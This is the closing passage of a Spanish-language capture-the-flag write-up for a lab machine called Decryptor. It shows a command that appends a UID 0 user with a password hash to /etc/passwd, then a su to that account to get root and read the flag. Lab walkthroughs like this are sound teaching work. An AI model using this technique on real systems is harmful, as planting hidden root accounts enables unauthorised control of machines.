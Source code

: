 Quedaría así:
```bash
chiquero@Decryptor:~$ echo 'berserk:$1$XcEUPl6S$xZJcD3/GIQGf26XA9hK7O.:0:0::/home/berserk:/bin/bash' >> /etc/passwd
```

Si revisamos el `/etc/passwd`, ahí debería estar nuestro usuario:

<p align="center">
<img src="/assets/images/THL-writeup-decryptor/Captura9.png">
</p>

Ya solo nos autenticamos como nuestro usuario:
```bash
chiquero@Decryptor:~$ su berserk
Password: 
root@Decryptor:/home/chiquero# whoami
root
```
Listo, volvimos a ser **Root**.

Ya solo buscamos la flag:
```bash
root@Decryptor:/home/chiquero# cd /root
root@Decryptor:/root# ls
root.txt
root@Decryptor:/root# cat root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://md5decrypt.net/en/Brainfuck-translator/
* https://gtfobins.github.io/gtfobins/chown/


<br>

# FIN

<footer id="myFooter">
    <!-- Footer para eliminar el botón -->
</footer>
